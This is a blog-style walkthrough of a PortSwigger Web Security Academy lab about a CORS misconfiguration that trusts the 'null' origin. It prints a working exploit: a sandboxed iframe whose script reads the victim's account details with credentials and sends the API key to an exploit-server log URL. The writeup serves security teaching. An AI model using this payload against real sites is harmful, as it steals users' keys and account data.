```yaml
---
title: CORS vulnerability with trusted null origin
date: 2025-10-21 00:00:00 +0800
categories: [Portswigger, Cross-origin resource sharing (CORS)]
tags: [portswigger, writeup, walkthrough, web, cors]     # TAG names should always be lowercase
description: In this post we will solve a CORS Lab on portswigger, have fun reading.
---
```


## Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

### Lab 2 Exploitation

Starting with exploring our website we will login with the creds provided and see the requests after that, we will find that there is a request after signing in called `/accountDetails` and when seeing the response we will find that it gives back the information related to our account and also there is a header called `Access-Control-Allow-Credentials: true` which suggesting that it may support CORS.

![img-description](/assets/img/PortSwigger/CORS/1/request.png)
_Request_

So to make sure if it supports CORS or not we will use the origin header and type any imaginary website to see if it will accepts it or not

![img-description](/assets/img/PortSwigger/CORS/2/request.png)
_CORS_

When we added the imaginary website we will see that it didn’t trust it as we can see in the response so let’s try if it accepts null

![img-description](/assets/img/PortSwigger/CORS/2/NullReq.png)
_Null Request_

and yes it accepted it so let’s begin with the exploitation, go to the exploit server and this will be our exploit.

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

but why did we put it in this iframe and what does this mean.

- `sandbox` **removes the origin** (because `allow-same-origin` is NOT included).
- `srcdoc` creates a document directly from the embedded HTML.
- This causes the JavaScript to run in a **"null" origin context**, so any requests it makes will send `Origin: null`.

That’s exactly what the vulnerable backend is expecting/trusting, So send the request and you will see our api in the log, submit it and the lab is solved.

![img-description](/assets/img/PortSwigger/CORS/2/api.png)
_Api Key_
